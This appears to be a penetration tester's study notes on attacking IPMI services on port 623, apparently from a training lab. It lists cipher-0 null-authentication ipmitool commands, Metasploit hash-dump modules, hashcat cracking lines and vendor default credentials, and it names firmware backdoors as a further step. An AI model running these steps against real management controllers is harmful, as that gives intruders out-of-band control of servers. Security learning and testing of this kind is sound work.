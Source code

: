 ```yaml
---
title: IPMI
tags: [service, enum]
service: IPMI
protocol: ['udp', 'tcp']
port: [623]
auth: ['default-creds', 'password', 'null-auth (cipher0)']
tools: ['nmap', 'ipmitool', 'hydra']
notes: "Baseboard management; weak/default creds and cipher0"
---
```


# Intelligent Platform Management Interface

## Common Attack Paths

### Enumeration
- [ ] Check cipher 0 auth bypass → `ipmitool -I lanplus -C 0 -U "" -P ""`
- [ ] Banner grab with nmap scripts → `nmap --script=ipmi* -p623 <target>`

### Attack Paths
- Default creds → `ADMIN/ADMIN`
- Cipher 0 null authentication → full remote control
- Dump hashes via IPMI auth → crack offline
- Firmware upload / persistent backdoor

### Auxiliary Notes
- Dangerous: often runs out-of-band, gives BIOS/OS control.
- Treat as high-value target if accessible.
- Sometimes reachable only on management VLANs.



## General Enumeration

*Common Commands*

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan | Hash Dum

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

# Hash dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Crack the hashes with hascat

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

# With other wordlist
hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt
```

### Common or default logins

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomised 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |

### Service Information

- [Pentesting IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)

